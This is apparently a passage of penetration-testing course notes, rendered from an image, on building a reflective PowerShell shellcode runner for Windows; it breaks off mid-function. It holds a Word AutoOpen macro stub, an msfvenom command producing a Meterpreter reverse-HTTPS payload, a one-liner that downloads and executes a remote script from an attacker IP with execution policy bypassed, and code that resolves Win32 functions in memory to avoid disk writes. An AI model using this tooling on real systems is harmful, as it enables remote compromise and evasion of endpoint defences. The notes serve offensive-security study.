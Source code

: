 ```pwsh

Sub AutoOpen()
    MyMacro
End Sub
```

## Reflection Shellcode Runner in PowerShell

2 ways to locate functions in unmanaged dynamic link libraries:

1. `Add-Type` and `DllImport` keywords (or the `Declare` keyword in VBA). However, `Add-Type` calls the `csc` compiler, which writes to disk.

2. Dynamic lookup

To perform a dynamic lookup of function addresses, 2  Win32 APIs:

1. `GetModuleHandle` obtains a handle to the specified DLL, i.e. the memory address of the DLL.

2. Pass the DLL handle and the function name to `GetProcAddress`, which will return the function address.

Using `GetType` to obtain a reference to the `System.dll` assembly at runtime => **Reflection** technique.

`GetMethod` function to obtain a reference to the internal `GetModuleHandle` method.

### run2.txt

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

```bat
powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run2.txt'))
```

```pwsh
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
```